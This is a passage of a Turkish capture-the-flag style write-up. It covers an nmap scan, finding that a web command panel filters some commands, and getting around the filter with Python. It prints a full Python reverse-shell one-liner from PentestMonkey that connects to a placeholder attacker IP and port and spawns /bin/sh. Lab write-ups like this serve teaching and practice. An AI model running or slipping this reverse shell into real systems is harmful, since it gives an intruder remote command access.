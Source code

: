 ```nmap  -p 22,80 -sC -Pn -sV -T5  10.10.183.248```
</p>

<p> <h3>Komut Enjeksiyonu</h3>
Giriş yapıldıktan sonra açılan ekranda komut paneli ile karşılaşıldı. Komut panelinde bazı komutlar denenerek bir kısıtlamaya (validation) sahip olduğu görüldü. cat komutu engellenen komutlardan biriydi. 
<br>
    
<img src="images/7-examplecommand.png" alt="3" width="300" height="300" > <img src="images/8-testCommand.png" alt="3" width="300" height="300">
  
<br>
</p>


<p>
Makinede Python olup olmadığı kontrol edildikten sonra Python ile komut çalıştırma denediğinde pythonın kullanabildiği görüldü. Reverse Shell almak için PentestMonkey den python ile çalıştırılan reverse Shell komutu alınıp atak makinesinin IP si ile düzenlenerek komut çalıştırıldı. 

``` locate python ```
<br>
```Bu kodda Makine IP ve Port kısımlarını kendinize göre düzenlemelisiniz
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("Makine IP", PORT));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

<br>
    <div style="text-align:center;">
    <img src="images/9-reversehellcode.png" alt="3" width="500" >